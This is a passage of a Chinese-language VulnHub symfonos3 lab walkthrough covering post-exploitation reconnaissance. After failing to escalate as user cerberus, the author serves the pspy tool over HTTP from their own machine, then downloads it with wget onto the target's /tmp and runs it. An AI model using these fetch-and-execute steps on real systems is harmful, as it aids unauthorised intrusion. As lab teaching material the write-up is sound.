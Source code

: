 ![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/22.png)

cerberus 用户下没有找到可以提权的点,查看 passwd 用户可以发现还有个 hades 用户可以登录,使用 [pspy](https://github.com/DominicBreuker/pspy) 这个工具看看有哪些进程

```bash
python -m SimpleHTTPServer 8080
```

```bash
cd /tmp
wget 192.168.141.134:8080/pspy64
chmod +x pspy64
/tmp/pspy64
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/23.png)
